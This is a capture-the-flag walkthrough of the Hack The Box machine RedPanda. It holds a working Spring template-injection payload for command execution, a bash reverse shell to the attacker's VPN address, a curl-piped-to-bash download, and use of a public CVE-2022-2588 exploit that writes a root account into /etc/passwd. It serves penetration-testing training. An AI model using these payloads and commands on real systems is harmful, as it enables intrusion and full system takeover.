

# RedPanda

- [HTB - RedPanda](https://app.hackthebox.com/machines/RedPanda)

Target IP
10.10.11.170

## Enumeration

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).

```bash
sudo $(which autorecon) 10.10.11.170 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Nmap

```bash
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC82vTuN1hMqiqUfN+Lwih4g8rSJjaMjDQdhfdT8vEQ67urtQIyPszlNtkCDn6MNcBfibD/7Zz4r8lr1iNe/Afk6LJqTt3OWewzS2a1TpCrEbvoileYAl/Feya5PfbZ8mv77+MWEA+kT0pAw1xW9bpkhYCGkJQm9OYdcsEEg1i+kQ/ng3+GaFrGJjxqYaW1LXyXN1f7j9xG2f27rKEZoRO/9HOH9Y+5ru184QQXjW/ir+lEJ7xTwQA5U1GOW1m/AgpHIfI5j9aDfT/r4QMe+au+2yPotnOGBBJBz3ef+fQzj/Cq7OGRR96ZBfJ3i00B/Waw/RI19qd7+ybNXF/gBzptEYXujySQZSu92Dwi23itxJBolE6hpQ2uYVA8VBlF0KXESt3ZJVWSAsU3oguNCXtY7krjqPe6BZRy+lrbeska1bIGPZrqLEgptpKhz14UaOcH9/vpMYFdSKr24aMXvZBDK1GJg50yihZx8I9I367z0my8E89+TnjGFY2QTzxmbmU=
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH2y17GUe6keBxOcBGNkWsliFwTRwUtQB3NXEhTAFLziGDfCgBV7B9Hp6GQMPGQXqMk7nnveA8vUz0D7ug5n04A=
|   256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKfXa+OM5/utlol5mJajysEsV4zb/L0BJ1lKxMPadPvR
8080/tcp open  http-proxy syn-ack ttl 63
|_http-title: Red Panda Search | Made with Spring Boot
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Wed, 02 Nov 2022 21:05:06 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 02 Nov 2022 21:05:06 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 02 Nov 2022 21:05:06 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.93%I=9%D=11/2%Time=6362DB82%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Wed,\x2002\x20Nov\x20
SF:2022\x2021:05:06\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20We
SF:d,\x2002\x20Nov\x202022\x2021:05:06\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Wed,\x2002\x20Nov\x202022\x2021:05:06\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=11/2%OT=22%CT=1%CU=33850%PV=Y%DS=2%DC=T%G=Y%TM=6362DBC
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)
```

### Port 8080

It looks like we have a webapp made with [Spring Boot](https://spring.io/projects/spring-boot) on this port

```bash
|_http-title: Red Panda Search | Made with Spring Boot
```


### SSTI

After checking every corner of the application, I identify that using `#{7*7}` on the main search page allow us to interact with the template of the application. 


Useful links about SSTI.
- [PayloadsAllTheThings - Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [hacktricks.xyz - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

### Burp

After a lot of playing with SSTI, I got a really useful string that allowed to execute code on the target and return the output on the webpage.

```bash
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('ps aux').getInputStream())}
```

To reduce the chance of problems during the request, I URL encoded most of the string.

```bash
%2a%7b%54%28%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%29%2e%74%6f%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28'ps aux'%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%7d
```

This way, we could change direct on `Burp` only the code to be sent and executed on the target.


### ICMP

To test if the target could reach my Kali machine, I started `tcpdump` listening on the VPN interface for ICMP packages.

```bash
$ sudo tcpdump -n -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Back on Burp, I sent the request.


And on tcpdump we could see the ICMP requests comming.

```bash
$ sudo tcpdump -n -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:26:52.562629 IP 10.10.11.170 > 10.10.14.14: ICMP echo request, id 4, seq 1, length 64
22:26:52.562658 IP 10.10.14.14 > 10.10.11.170: ICMP echo reply, id 4, seq 1, length 64
22:26:53.557923 IP 10.10.11.170 > 10.10.14.14: ICMP echo request, id 4, seq 2, length 64
22:26:53.557949 IP 10.10.14.14 > 10.10.11.170: ICMP echo reply, id 4, seq 2, length 64
```

### Rev Shell

To avoid errors with characters or other conflicts, I created a bash script with a reverse shell payload.

```bash
$ cat shell.sh                                                
bash -c 'exec bash -i &>/dev/tcp/10.10.14.14/4444 <&1'
```

I started a Python HTTP server on the folder of the file, to be able to transfer it to the target.

```bash
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [02/Nov/2022 22:34:23] "GET /shell.sh HTTP/1.1" 200 -
```

Send a command to the file to be downloaded.

```bash
wget http://10.10.14.14/shell.sh
```



It hit our HTTP server and downloaded the file.

```bash
$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [02/Nov/2022 22:34:23] "GET /shell.sh HTTP/1.1" 200 -
```

To verify if the file was downloaded, I executed a `ls`.

```bash
ls -lha
```


Now, lets work on spinning a listner for our shell.

```bash
$ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444 ...
```

We can try to run the command via `curl`.


```bash
$ curl -i -s -k -X $'POST' -H $'Host: 10.10.11.170:8080' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 329' -H $'Origin: http://10.10.11.170:8080' -H $'Connection: close' -H $'Referer: http://10.10.11.170:8080/search' -H $'Upgrade-Insecure-Requests: 1' --data-binary $'name=%2a%7b%54%28%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%29%2e%74%6f%53%74%72%69%6e%67%28%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28\'bash shell.sh\'%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%7d\x0d\x0a\x0d\x0a\x0d\x0a' $'http://10.10.11.170:8080/search'
```

And we get a shell.

```bash
$ rlwrap -cAr nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.170] 60976
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

## Priv Escalation

### LinPEAS

We have `LinPEAS` hosted on the folder we have our HTTP server running. 

Let's download it on the target and execute it.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ curl http://10.10.14.14/linpeas.sh | bash
...
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560
Potentially Vulnerable to CVE-2022-2588
...
```

There are many things listed on the output of the tool, but 2 seem promissing. On `GitHub` we can see many prove of concepts of these CVEs. After testing a few for both CVEs, I managed to get `root` with this code - [CVE-2022-2588](https://github.com/Markakd/CVE-2022-2588)

Download `exp_file_credential` from GitHub to Kali.

```bash
$ wget https://github.com/Markakd/CVE-2022-2588/raw/master/exp_file_credential
--2022-11-03 00:44:54--  https://github.com/Markakd/CVE-2022-2588/raw/master/exp_file_credential
Resolving github.com (github.com)... 192.30.255.113
Connecting to github.com (github.com)|192.30.255.113|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/Markakd/CVE-2022-2588/master/exp_file_credential [following]
--2022-11-03 00:44:55--  https://raw.githubusercontent.com/Markakd/CVE-2022-2588/master/exp_file_credential
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 37136 (36K) [application/octet-stream]
Saving to: ‘exp_file_credential’

exp_file_credential            100%[===================================================>]  36.27K  --.-KB/s    in 0.006s  

2022-11-03 00:44:55 (6.19 MB/s) - ‘exp_file_credential’ saved [37136/37136]
```

And tranfer it to the target.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ wget http://10.10.14.14/exp_file_credential
--2022-11-03 07:49:50--  http://10.10.14.14/exp_file_credential
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 37136 (36K) [application/octet-stream]
Saving to: ‘exp_file_credential’

exp_file_credential 100%[===================>]  36.27K  --.-KB/s    in 0.08s   

2022-11-03 07:49:51 (431 KB/s) - ‘exp_file_credential’ saved [37136/37136]
```

I chaged its permission to allow execution and ran it.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ chmod +x exp_file_credential
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ./exp_file_credential
self path /tmp/hsperfdata_woodenk/./exp_file_credential
prepare done
Old limits -> soft limit= 14096          hard limit= 14096 
starting exploit, num of cores: 2
defrag done
spray 256 done
freed the filter object
256 freed done
double free done
spraying files
found overlap, id : 10, 660
start slow write
closed overlap
got cmd, start spraying /etc/passwd
write done, spent 0.751736 s
should be after the slow write
spray done
succeed
```

It worked, the code created a new user called `user` (password *user*) with `id` **0**.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ head -n 4 /etc/passwd
user:$1$user$k8sntSoh7jhsc6lwspjsU.:0:0:/root/root:/bin/bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

Now let's become this user.

```bash
woodenk@redpanda:/tmp/hsperfdata_woodenk$ su user
password: user
# id
uid=0(user) gid=0(root) groups=0(root)
```

To get a better shell, I decided to ssh into the target with the new user.

```bash
$ ssh user@10.10.11.170        
user@10.10.11.170's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
...
Last login: Thu Jun 30 13:17:41 2022
Could not chdir to home directory /bin/bash: Not a directory
# id
uid=0(user) gid=0(root) groups=0(root)
```

Let's improve the shell.

```bash
# /usr/bin/bash
user@redpanda:/# 
```

## Flags

```bash
user@redpanda:/root# cat /home/woodenk/user.txt 
9c9a************************3283

user@redpanda:/root# cat /root/root.txt 
516c************************4e7b
```
